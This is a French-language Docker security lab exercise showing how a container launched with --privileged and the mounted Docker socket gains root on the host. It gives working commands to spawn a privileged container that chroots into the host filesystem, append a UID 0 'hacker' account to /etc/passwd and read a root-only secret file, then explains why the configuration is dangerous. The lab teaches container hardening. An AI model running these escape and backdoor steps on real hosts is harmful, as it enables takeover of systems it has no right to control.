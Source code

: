# **🔹 Exercise 14 Conteneur dangereux : Accès root de l'hôte depuis un conteneur 🚨⚠️**

En **production**, mal configurer un conteneur **peut exposer l’hôte** à des attaques et permettre une **escalade de privilèges**.  

📌 **Problème** : Certains paramètres de lancement permettent à un conteneur de **prendre le contrôle de l’hôte** !  

---

## **1️⃣ Pourquoi c’est dangereux ?**
- **Docker tourne en root** → Un conteneur peut potentiellement exécuter des commandes avec les **droits root** de l’hôte.
- **Accès au socket Docker (`/var/run/docker.sock`)** → Permet au conteneur de **gérer Docker lui-même**, créer d'autres conteneurs, supprimer des fichiers, etc.
- **Montage du système de fichiers de l’hôte** → Le conteneur peut **modifier des fichiers critiques** (`/etc/passwd`, `/root/.ssh`, `/etc/shadow`).
- **Ajout de privilèges avec `--privileged`** → Donne **un accès complet au noyau** du système.

---



## **2️⃣ Conteneur dangereux qui peut obtenir un accès root à l'hôte**
🚨 **Ne testez cela que sur une machine de test** 🚨
### **Prépation**

Créer un fichier secret
```sh
 echo "Supersecret" > secret.txt
 sudo chown root secret.txt 
 sudo chmod 400 secret.txt
 sudo mv secret.txt /etc/secret.txt
 cat /etc/secret.txt 
```


### **📌 Exemple : Accès root à l’hôte via `/var/run/docker.sock`**
1️⃣ **Lancer un conteneur en **mode privilégié** et en exposant le socket Docker** :
```sh
docker run -it --rm \
  --privileged \
  -v /var/run/docker.sock:/var/run/docker.sock \
  alpine sh
```
2️⃣ **Dans le conteneur, créer un nouveau conteneur root privilégié** :
```sh
apk add docker-cli
docker run -it --rm --privileged --net=host --pid=host -v /:/mnt alpine chroot /mnt sh
```
📌 **Résultat attendu** :  
- Vous avez un accès **root complet à l’hôte** depuis le conteneur.
- Vous pouvez **modifier des fichiers système**.

3️⃣ **Test : Ajouter un nouvel utilisateur root sur l’hôte** :
```sh
echo "hacker:x:0:0::/root:/bin/bash" >> /etc/passwd
```
4️⃣ **Ouvrir une session sur l’hôte avec cet utilisateur** :
```sh
su hacker
cat /etc/secrets.txt
```
📌 **Le conteneur a complètement pris le contrôle de l’hôte !** 😱

---

## **3️⃣ Expliquer comment cela fonctionne**
### **🔍 Exploitation de `/var/run/docker.sock`**
Docker expose une **API UNIX (`/var/run/docker.sock`)** qui permet de gérer les conteneurs.  
📌 **Problème** :  
Si un conteneur a accès à ce socket, il peut :
- Lancer **d'autres conteneurs avec des privilèges élevés**.
- **Supprimer des conteneurs** sur l’hôte.
- **Monter tout le système de fichiers de l’hôte**.

### **🔍 Exploitation du mode `--privileged`**
L’option `--privileged` donne au conteneur **tous les privilèges root** :
- **Accès aux périphériques de l’hôte (`/dev`, `/sys`)**.
- **Modification des paramètres du noyau**.
- **Ajout d’interfaces réseau**.
- **Chargement de modules noyau**.

📌 **Conséquence** :
👉 Un attaquant peut **modifier l’OS de l’hôte directement depuis un conteneur** !